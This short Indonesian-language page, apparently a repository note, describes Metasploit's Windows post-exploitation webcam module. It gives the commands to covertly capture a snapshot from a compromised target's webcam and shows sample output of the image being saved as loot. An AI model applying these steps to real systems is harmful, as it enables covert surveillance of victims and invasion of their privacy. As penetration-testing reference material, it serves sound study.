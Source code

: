 # webcam

Modul `webcam` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengakses dan mengambil gambar dari webcam komputer target secara diam-diam.

## Cara Penggunaan di Metasploit

```
use post/windows/manage/webcam
set INDEX <ID>
set QUALITY 100
set SESSION <ID>
set VERBOSE 1
snapshot
```

Hasil output-nya seperti ini:

```
[*] 192.168.1.52 - Starting...
[*] 192.168.1.52 - Got frame
[+] 192.168.1.52 - Snapshot saved: /root/.msf4/loot/20250517001711_default_192.168.1.52_192.168.1.52.web_394465.jpg
[*] 192.168.1.52 - Stopped
[*] Post module execution completed
```

